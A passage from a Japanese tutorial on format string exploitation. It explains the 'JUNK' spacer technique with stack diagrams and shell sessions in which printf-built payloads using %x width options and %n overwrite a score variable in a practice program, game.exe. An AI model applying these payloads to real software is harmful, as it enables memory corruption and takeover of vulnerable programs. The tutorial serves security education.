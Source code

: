                           .\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-.
  .\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-|\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-.         |
 ↓                      ↓                                       |         |
\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-
 | bfffff98c | bfffff98d | bfffff98e | bfffff98f | %x | %x | ...| %n | %x | %n |
\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+
            ↑                                                         |
             ^\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-^

●スペーサテクニック

　これを解決するために、アドレスとアドレスの間にスペーサをかませます。つ
まり、%xが参照するためのダミーの文字列をはさみます。変換指定文字は4バイト
を一単位とするため、適当な4文字の文字列をはさみます。よく使われるのは「J
UNK」という文字列ですので、これに習いJUNKをはさんでみます。

                          .\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-.
  .\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-|\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-.         |
 ↓                      ↓                                                             |         |
\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-\-\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-\-\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-\-\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-
 | bfffff98c | JUNK | bfffff98d | JUNK | bfffff98e | JUNK | bfffff98f | %x | %x | ...| %n | %x | %n |
\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-\-\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-\-\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-\-\-+\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-\-\-+\-\-
             ↑                                                                             |
              ^\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-^

　%nの後ろの%xはJUNKを参照します。この%xにフィールド幅オプションを指定す
れば、好きな値を2桁目に書くことができます。それでは、この方式を用いてsco
re変数に0xddccbbaa（10進数では3721182122）を書き込んでみましょう。間にJU
NKという文字列を入れたので、出力バイト数は以前と変化しています。よって、
まずは何も指定しない状態でscore変数に何が格納されるか確認します。

\-\-\-\-\-
newbie@Glazheim:knoppix$ game.exe \`printf "\x7c\xf9\xff\xbfJUNK\x7d\xf9\xff\xbfJUNK\x7e\xf9\xff\xbfJUNK\x7f\xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%x.%n
[debug]addr of score \= bffff97c
[debug]addr of payload \= bffff940
Score of |鐃緒申UNK}鐃緒申UNK\~鐃緒申UNK鐃緒申ffffb59.1.bffff8b4.4d532038.532050.b7eb116c.1. is 75(4b)!! 
\-\-\-\-\-

　どうやら75のようです。0xaaは10進数で170ですので、170\-75\=95。つまり、96
を%xの幅指定オプションに指定すれば0xaaを書き込めます。

\-\-\-\-\-
newbie@Glazheim:knoppix$ game.exe \`printf "\x7c\xf9\xff\xbfJUNK\x7d\xf9\xff\xbfJUNK\x7e\xf9\xff\xbfJUNK\x7f\xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%96x.%n
[debug]addr of score \= bffff97c
[debug]addr of payload \= bffff940
Score of |鐃緒申UNK}鐃緒申UNK\~鐃緒申UNK鐃緒申ffffb57.1.bffff8b4.4d532038.532050.b7eb116c. 1. is 170(aa)!! 
\-\-\-\-\-
